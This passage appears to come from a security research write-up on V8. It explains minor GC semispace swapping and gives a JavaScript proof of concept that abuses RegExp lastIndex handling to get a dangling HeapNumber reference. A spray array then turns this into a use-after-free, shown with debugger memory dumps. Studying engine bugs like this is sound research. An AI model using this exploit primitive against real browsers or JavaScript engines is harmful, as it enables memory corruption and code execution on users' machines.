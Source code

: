 When the minor GC [1] happens, the space occupied by `HeapNumber` is considered
as the `Nursery/From-Space` (call this `A`) space and live object is evacuated from this space
to `Intermediate/To-Space` (call this `B`). After the minor GC is done, the previous `Nursery/From-Space` (`A`)
has now become `Intermediate/To-Space` and the previous `Intermediate/To-Space` (`B`)
has now become `Nursery/From-Space`. Now, when new objects are allocated, they
would be placed on `B`, since `B` is now the `Nursery/From-Space`. Next, if we do
another minor GC, new object would now be allocated at `A` instead of `B`.


```js
var re = new RegExp("leet", "g");
var exec_bak = RegExp.prototype.exec;  // backup original exec()
RegExp.prototype.exec = function () { return null; };
var n = 1073741824;
re.exec = function () {
    re.lastIndex = n;
    delete re.exec;  // to pass `HasInitialRegExpMap` check and falls back to RegExp.prototype.exec to avoid infinite loop
    return [""];  // to get into `SetAdvancedStringIndex`
}
eval("%DebugPrint(re)");
gc();  // major gc / mark and sweep: forces `re` to move into `OldSpace`
re[Symbol.replace]("", "l33t");
console.assert(re.lastIndex === n + 1);  // 1073741825 === 1073741824+1
RegExp.prototype.exec = exec_bak;  // restore original exec()

eval("%DebugPrint(re)");
eval("%DebugPrint(re.lastIndex)");

gc({type:'minor'})  // causes `HeapNumber` to be garbage collected
gc({type:'minor'})  // switches `Nursery` and `Intermediate` such that new object is allocated near our old `HeapNumber`

var spray = [0.0, 1.0, 2.0, 3.0, 4.0, 5.0, 6.0, 7.0, 8.0, 9.0, 10.0]

eval("%DebugPrint(re)");
eval("%DebugPrint(spray)");
```

When we run the above code, as expected, `spray` is now allocated near our old
`HeapNumber` address. Now, our `re.lastIndex` actually points to the elements of
`spray`, and we essentially have UAF and full control over the memory pointed
by `re.lastIndex`.

```console
gef> run
0x199c000483ad <JSRegExp <String[4]: #leet>>
[16796:0x555556d7b000]       14 ms: Mark-Compact 0.1 (1.5) -> 0.1 (2.5) MB, 7.07 / 0.00 ms  (average mu = 0.440, current mu = 0.440) testing; GC in old space requested
0x199c0019a71d <JSRegExp <String[4]: #leet>>
0x199c001c2155 <HeapNumber 1073741825.0>
[16796:0x555556d7b000]       25 ms: Scavenge 0.1 (2.5) -> 0.1 (2.5) MB, 5.75 / 0.00 ms  (average mu = 0.440, current mu = 0.440) testing;
[16796:0x555556d7b000]       30 ms: Scavenge 0.1 (2.5) -> 0.1 (2.5) MB, 5.73 / 0.00 ms  (average mu = 0.440, current mu = 0.440) testing;
0x199c0019a71d <JSRegExp <String[4]: #leet>>
0x199c001c21a9 <JSArray[11]>

gef> tele 0x199c001c21a8 2
0x199c001c21a8|+0x0000|+000: 0x000006cd0018ece1
0x199c001c21b0|+0x0008|+001: 0x00000016001c2149
gef> tele 0x199c001c2148 10
0x199c001c2148|+0x0000|+000: 0x0000001600000851
0x199c001c2150|+0x0008|+001: 0x3fb999999999999a
0x199c001c2158|+0x0010|+002: 0x3ff199999999999a
```

[^wb]: <https://v8.dev/blog/concurrent-marking>
[^smi-range]: <https://medium.com/fhinkel/v8-internals-how-small-is-a-small-integer-e0badc18b6da>